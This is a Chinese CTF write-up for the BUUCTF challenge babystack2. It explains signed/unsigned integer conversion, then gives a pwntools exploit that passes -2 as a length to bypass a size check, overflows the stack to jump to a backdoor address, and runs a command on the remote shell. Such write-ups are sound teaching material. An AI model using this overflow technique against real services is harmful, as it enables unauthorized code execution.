 ## 整数溢出

#### 题目：[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#bjdctf_2020_babystack2)

##### 知识点：

1. 当 **有符号数** 转化为 **无符号数** 时，由于表示方式不同，会造成数值大小不一样,下面同样给a，赋值50000，输出的结果确不一样，原因就是b声明为有符号数，所以要以有符号数来表示。

   ``````c++
   #include <stdio.h>
   #include <stdlib.h>
   
   int main()
   {
       unsigned short int a = 50000;
       signed short int b = 50000;
       printf("a = %d\nb = %d", a, b);
       return 0;
   }
   
   ``````

   ![image-20240601121511676](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406011215731.png)

2. 5000的二进制表示最高位时1，所以在有符号的情况下时负数，负数在程序按补码表示，所以需要还原成源码的形式**（1111111111111111-1100 0011 0101 0000+1）2 = 15536**，因此最终显示的结果为 **-15536** ：

   ![image-20240601122151551](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406011221593.png)

   ![image-20240601122144757](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406011221794.png)

#### 解题：

1. 程序中给我们自由选择输入的长度，但是不能超过10，要进行栈溢出长度必须超过10，所以需要绕过if条件判断，仔细观察if条件判断中用的时是 **int** 有符号数判断，但是在read函数中将其转化为了无符号数，这里存在格式转化后bytes表示大小的变化，只要输入以一个负数使其 **二进制下最高位的符号位为1** ，即可绕过判断，然后在read函数中 **转化为无符号数** 时 **最高位为1** 会被当成数值位进行解析，此时bytes表示的大小变大产生栈溢出漏洞：

   ![image-20240601122242028](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406011222090.png)

   ![image-20240601123014694](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406011230746.png)

2. EXP

   ``````python
   #!/usr/bin/env python
   from pwn import *
   context(os='linux', arch='amd64', log_level='debug')
   p = remote('node5.buuoj.cn',26878)
   p.recvuntil(b'[+]Please input the length of your name:\n')
   p.sendline(b'-2')
   p.recvuntil(b'''[+]What's u name?''')
   
   payload = b'a'*(0x10+8)+p64(0x400726)
   p.sendline(payload)
   p.sendline(b'cat flag')
   p.interactive()
   
   ``````

   ![image-20240601123115184](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406011231223.png)